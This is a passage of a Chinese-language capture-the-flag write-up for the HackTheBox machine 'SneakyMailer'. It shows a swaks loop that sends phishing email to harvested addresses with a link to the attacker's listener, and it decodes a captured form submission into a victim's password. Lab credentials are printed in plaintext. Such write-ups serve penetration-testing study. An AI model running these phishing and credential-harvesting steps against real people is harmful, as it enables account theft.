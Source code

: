 `while read email;do swaks -to $email ;done < email.txt`

都是可以发送的，
批量发送邮件

`while read email; do swaks -to $email -from admin@sneakymailer.htb -header "Subject:whoami" -body "http://10.10.14.35:8080/" -server 10.10.10.197;done < email.txt`

在监听端口得到信息

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030212120724_29816.png)

`firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt`

bp中直接decode

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030212311448_28124.png)
```
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```
所以邮箱的凭证应该是

```
paulbyrd@sneakymailer.htb
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```
thunderbird 登录



![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030212605021_6855.png)

总是失败，不能加入邮箱

更换客户端，使用evolution


![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030215257990_10498.png)

一组凭证
```
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
```

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030215448240_12737.png)

让low在pypi 服务安装测试并删除所有的python模块

凭证无法在ssh登录

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030221216735_24252.png)

但是可以在ftp使用

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201030221312823_23684.png)
